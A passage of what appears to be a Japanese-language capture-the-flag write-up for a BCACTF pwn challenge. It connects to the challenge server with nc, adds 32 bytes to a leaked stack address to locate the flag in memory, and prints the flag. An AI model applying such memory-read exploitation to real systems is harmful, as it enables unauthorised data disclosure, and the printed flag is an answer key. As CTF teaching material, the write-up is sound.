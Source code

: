 ```C
    printf("%s\n", guess);

    return 1;
}
```


<br>

### Solution

とりあえず、`nc`で繋いで動作を見てみます。

<pre>
$ nc challs.bcactf.com 30810
Welcome to the most tasmastic game of all time!
 . . .
Basically it's just too simple, I've put the
flag into the memory and your job is ... to
guess where it is!!
 . .
How fun is that!
 .
Oh and before you start, I'll give you a little
hint, the address of the current stackframe I'm
in is 0x7ffe71e7eaf0
 . . .
Okay anyway, back to the game. Make your guess!
(hexadecimals only, so something like 0xA would work)
guess>
</pre>

<br />

`first_var` のポインターが表示されます。その後、任意のポインターを入力すると、その部分のデータを表示してくれるプログラムなのがわかります。

`flag`のポインターは、`first_var` のポインター + 32 bytes です。

32 bytesがわからなくても、トライアンドエラーでも解くことができると思います。

<pre>
>>> hex(0x7ffe71e7eaf0 + 32)
'0x7ffe71e7eb10'
</pre>

<br />

<pre>
guess> 0x7ffe71e7eb10
 . . .
Okay, prepare yourself. If you're right this
will print out the flag
 .
Oh, and if your wrong, this might crash and
disconnect you
Good luck!
bcactf{0nE_two_thR3E_f0ur_567___sT3ps_t0_PwN4G3_70cc0e5edd6ea}
</pre>
